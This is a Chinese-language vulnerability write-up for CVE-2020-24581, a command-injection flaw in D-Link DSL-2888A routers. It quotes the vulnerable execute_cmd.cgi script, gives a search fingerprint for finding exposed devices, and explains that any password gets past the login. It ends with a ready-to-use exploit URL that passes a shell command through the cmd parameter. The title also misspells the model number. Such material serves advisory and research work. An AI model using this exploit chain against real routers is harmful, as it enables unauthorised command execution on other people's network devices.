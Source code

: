 # D-Link DSL-28881A 远程命令执行 CVE-2020-24581

## 漏洞描述

D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。
在该版本固件中同时存在着一个不安全认证漏洞（CVE-2020-24580），在登录界面输入任意密码就可以成功访问路由器界面。

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

登录页面输入任意密码建立连接



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/link-1.png)



跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

漏洞出现在 `execute_cmd.cgi` 文件中

```bash
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```



这里取出 `${QUERY_STRING}` 中的第二个参数值，然后去除空格命令执行

在这个过程中并没有过滤，看一下参数从哪来的

文件 `/www/js/ajax.js`

```javascript
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},
```



看一下过程



```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```



这里取第二个参数 `whoami` 然后就没有过滤的执行了



所以EXP为:



```plain
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/link-4.png)

